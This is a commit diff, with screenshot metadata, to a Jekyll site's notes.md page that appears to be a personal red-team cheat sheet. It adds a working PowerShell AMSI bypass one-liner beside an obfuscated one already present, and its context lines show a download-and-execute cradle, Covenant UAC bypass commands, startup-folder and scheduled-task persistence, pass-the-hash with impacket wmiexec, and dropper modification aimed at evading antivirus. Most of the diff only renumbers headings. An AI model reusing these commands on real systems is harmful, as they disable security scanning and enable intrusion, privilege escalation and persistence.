

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 1400 px high, scrolled down 2204 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -121,6 +121,11 @@ AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, scri
 	[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
 	```
 
+```powershell
+$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
+```
+
+
 ### 2) Powershell Oneliner
 
 ### 3) Applocker
@@ -152,16 +157,9 @@ Find-LAPSDelegatedGroups
 ```
 
 
-### 5)
-
-### 6)
-
-### 7)
-
-
 # PrivEsc
 
-#### PowerUp
+#### 1) PowerUp
 
 ```py
 powershell.exe -nop -exec bypass
@@ -176,7 +174,7 @@ powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString
 ```
 
 
-#### UAC Bypasses
+#### 2) UAC Bypasses
 
 Covenant has `BypassUACCommand` and `BypassUACGrunt` Tasks which can be used
 
@@ -189,7 +187,7 @@ BypassUACCommand cmd.exe "/c powershell -enc [...snip...]"
 
 # Persistence
 
-##### Classic Startup folder
+##### 1) Classic Startup folder
 
 Just drop a binary in current user folder, will trigger when current user signs in:
 
@@ -202,7 +200,7 @@ Or in the startup folder, requires administrative privileges but will trigger as
 "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
 ```
 
-##### Schedule Tasks
+##### 2) Schedule Tasks
 
 This PowerShell script will execute a new Grunt (using our existing PowerShell payload) every 4 hours for up to 30 days. If you omit the RepetitionDuration option in the trigger, it will repeat indefinitely.
 
@@ -331,7 +329,7 @@ proxychains python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes
 
 # Obfuscation
 
-### 1) Covenant modified dropper
+### 1) Covenant use case - modified default dropper
 
 First of all we will clone the main Covenant repository into our local machine. Furthermore we will modifiy some of the default word used by Covenat
 (Grunt, Jitter, Stage0, etc) in order to alter AV signature scanning capabilities. The bash script to automate this process is presented below:
````
